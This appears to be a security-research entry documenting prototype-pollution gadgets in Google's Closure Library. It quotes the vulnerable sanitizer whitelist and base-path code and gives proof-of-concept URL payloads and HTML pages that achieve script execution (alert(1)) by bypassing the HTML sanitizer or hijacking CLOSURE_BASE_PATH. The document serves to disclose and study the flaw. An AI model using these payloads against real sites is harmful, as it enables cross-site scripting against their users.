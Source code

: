 ## Closure

URL: https://github.com/google/closure-library/

### Vulnerable code fragment
https://github.com/google/closure-library/blob/5a0002f16c91d41f5de3dc7bdcafe9b74b1b4fa0/closure/goog/html/sanitizer/attributewhitelist.js#L22-L107
```js
goog.html.sanitizer.AttributeWhitelist = {
  '* ARIA-CHECKED': true,
  '* ARIA-COLCOUNT': true,
  '* ARIA-COLINDEX': true,
  '* ARIA-CONTROLS': true,
  '* ARIA-DESCRIBEDBY': tru
...
}
```
https://github.com/google/closure-library/blob/88f3857a26ec5ead36b4b49cb6c3f011cc534971/closure/goog/base.js#L2210-L2214
```js
  goog.findBasePath_ = function() {
    if (goog.global.CLOSURE_BASE_PATH != undefined &&
        // Anti DOM-clobbering runtime check (b/37736576).
        typeof goog.global.CLOSURE_BASE_PATH === 'string') {
      goog.basePath = goog.global.CLOSURE_BASE_PATH;
```

### PoC

#### AttributeWhitelist

```
?__proto__[*%20ONERROR]=1&__proto__[*%20SRC]=1
```

```html
<script>
  Object.prototype['* ONERROR'] = 1;
  Object.prototype['* SRC'] = 1;
</script>
<script src=https://google.github.io/closure-library/source/closure/goog/base.js></script>
<script>
  goog.require('goog.html.sanitizer.HtmlSanitizer');
  goog.require('goog.dom');
</script>
<body>
<script>
  const html = '<img src onerror=alert(1)>';
  const sanitizer = new goog.html.sanitizer.HtmlSanitizer();
  const sanitized = sanitizer.sanitize(html);
  const node = goog.dom.safeHtmlToNode(sanitized);
          
  document.body.append(node);
</script>
```

#### CLOSURE_BASE_PATH

```
?__proto__[CLOSURE_BASE_PATH]=data:,alert(1)//
```

```html
<script>
  Object.prototype.CLOSURE_BASE_PATH = 'data:,alert(1)//';
</script>
<script src=https://google.github.io/closure-library/source/closure/goog/base.js></script>
<script>
  goog.require('goog.html.sanitizer.HtmlSanitizer');
  goog.require('goog.dom');
</script>
```